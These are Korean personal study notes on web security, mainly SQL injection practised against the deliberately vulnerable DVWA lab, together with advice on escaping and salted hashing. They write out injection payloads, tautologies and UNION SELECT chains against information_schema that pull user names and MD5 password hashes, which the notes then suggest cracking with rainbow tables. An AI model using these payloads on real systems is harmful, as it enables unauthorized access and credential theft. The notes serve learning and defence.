



# 개요

 혼자 공부하기 위해 정리한 글입니다. 제가 이미 알고 있는 것은 생략하여 다른 독자를 고려하지 않았습니다. 양해 부탁드립니다.

## 웹 보안 이슈

OWASP - 정기적으로 웹 취약점을 조사해서 10개씩 발표하는 비영리 기구. 웹 보안과 관련된 트렌드를 알 수 있다.

* SQL 인젝션
* 스크립트 공격 (XSS, CSRF, SSRF)
* SSL/TSL
* Web Server 설정 문제 (Apache, IIS, Nginx)
* Client Side 문제 (쿠키, 세션)
* Compliance(규제) (개인정보보호법, GDPR, GS인증 등등)
* 검색엔진들이 지나치게 정보를 많이 가져감 (일반 사용자의 요청과는 다르게 웹서버들이 부하를 많이 받음)

  

# SQL 인젝션

## 주석 이용하기

Oracle, MS SQL :   --

MySQL, MariaDB :   #

 

## 다중문 작성 예시

SELECT id, pw FROM member WHERE id=''; UPDATE ~~~ #' and pw='       ';'

  

# DVMA

DVMA: Damn Vulnerable Web Application 의 약자.

웹 공격을 실습해 볼 수 있는 웹 서버. 다른 PC나 VMware에 설치하여 실습해보면 된다.

Security Level 을 설정하여 단계별로 실습해볼 수 있다. 처음에는 쉽게 설정해놓고 성공한다면 점차 Security Level을 높여서 연습해볼 수 있다. 단계: Low, Midium, High, Impossible

  

# SQL Injection

## Level: Low

User ID에 자연수를 입력하여 Submit을 누르면 해당 사용자의 정보가 출력되는 간단한 페이지.

### 예상하는 sql 구문

SELECT * FROM ?? WHERE id = '';

### 공격 구문

#### 특수문자를 허용하는 경우

* SELECT * FROM ?? WHERE id = '' or 1=1 #';
* SELECT * FROM ?? WHERE id = '' or 2>1 #';
* SELECT * FROM ?? WHERE id = '' or 1 #';

#### 입력란에 '#'을 허용하지 않는 경우

* SELECT * FROM ?? WHERE id = '' or 'a'='a'; 

#### 입력란에 '='와 '#'을 허용하지 않는 경우

* SELECT * FROM ?? WHERE id = '' or 's'<'t'; 

### Secure Coding 함수

SQL Injection 공격을 다 막기 위해서는 #, =, <, >, ', " 등을 모두 막아야한다.

공격 방어를 쉽게 해주는 것이 Secure Coding 함수. DBMS 에서 제공.

e.g. mysqli_real_escape_string()

  

# SQL Injection (Blind)

물어보거나 에러를 유발시켜서 DB명, Table명, Column명을 알아내어 새로운 SQL문을 만들어내는 것.

### 1단계) DB 정보 알아내기

database() : DB명 조회 함수

version() : 버전 확인

user() : 사용자 이름

@@version : 버전 확인

 

### 2단계) Table명 알아내기

information_schema라는 DB에 저장되어 있음.

' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='dvwa' #

 

### 3단계) Column명 알아내기

' union select column_name, null from information_schema.columns WHERE table_name='users' #

 

### 4단계) 원하는 정보 알아내기

' union select user, password from users #

Hash Algorihtm을 어떤 것을 사용하였을까?

문자열 개수 32개, 16진수로 표현되었으니 32 * 16 = 128bit

128bits 결과가 나오는 알고리즘은 MD5임. Hash Algorithm을 알게된다면 레인보우 테이블을 이용하여 쉽게 암호 유추가 가능함. (MD5(128bit), SHA1(160bit) 등은 안정성에 문제가 있음)

e.g. admin의 암호

안전하게 비밀번호 저장하기 : 안정성이 높은 Hash 알고리즘(SHA-2(256bit) 이상) 사용 및 Salt 사용

 

## Salt란?

사용자마다 서로 다른 랜덤 값을 부여한 것을 Salt라고 한다. 사용자의 비밀번호를 저장할 때 사용자가 입력한 비밀번호에 해당 Salt를 더해 Hash하여 저장한다. Salt를 사용함으로써 얻는 장점은 첫 번째로 레인보우 테이블을 이용한 공격을 방어할 수 있고, 두 번째로 같은 암호를 사용하는 서로 다른 두 사용자의 Hash값이 달라지기 때문에 한 명의 암호를 알게 되어도 같은 해시 값을 가지는 다른 사람의 암호를 알기 어렵게 한다.

  
